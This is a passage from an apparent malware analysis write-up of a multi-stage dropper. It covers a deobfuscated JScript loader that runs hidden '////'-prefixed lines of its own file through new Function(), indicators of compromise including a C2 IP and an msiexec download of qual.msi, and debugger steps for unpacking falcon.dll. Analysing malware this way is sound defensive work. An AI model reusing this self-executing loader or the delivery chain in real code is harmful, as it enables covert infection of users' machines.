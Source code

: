 ```js
} else {
WScript.Echo("Failed.");
}


var fsObj = new ActiveXObject("Scripting.FileSystemObject");
var selfPath = WScript.ScriptFullName;

try {
    if (fsObj.FileExists(selfPath)) {
        var selfFile = fsObj.OpenTextFile(selfPath, 1);
        var codeToExecute = "";
        while (!selfFile.AtEndOfStream) {
            var currentLine = selfFile.ReadLine();
            if (currentLine.indexOf("////") === 0) {
                codeToExecute += currentLine.substring(4) + "\n";
            }
        }
        selfFile.Close();

        if (codeToExecute) {
            var executeFunction = new Function(codeToExecute); 
            executeFunction();
        }
    }
} catch (error) {

}
```

the unobfuscated dropper is now ready for analysis. some indicators of compromise (IoCs) to look for are `45.95.11.134:80` connecting to `\share\` folder, and using `msiexec.exe` to grab `qual.msi` from the above C2 server.

Orca (provided by the Windows SDK) can be used to analyze or edit `qual.msi`. head over to `CustomAction` to view the `LaunchFile` target. this launches a file: `rundll32.exe`. its export entry is `vgml` and it's stored at `LocalAppDataFolder\stat\falcon.dll`.

you could also use UniExtract to extract `qual.msi`. it will create the directory `LocalAppDataFolder\stat\falcon.dll`. i copied the DLL to a separate directory for analysis. this commences stage 3.

## stage 3: `falcon.dll`

this is a packed DLL that contains another DLL inside it, which is the main payload.

you can use x64dbg, IDA, or Binary Ninja to analyze the DLL and payload. i used a combo of IDA and Binary Ninja.

open `rundll32.exe`. remove all breakpoints and change the command line: remove the old path and add the new path (`falcon.dll`) and restart.

select `user DLL entry` and `user DLL load` in preferences. keep hitting play until the name of the module (`falcon.dll`) is displayed. 
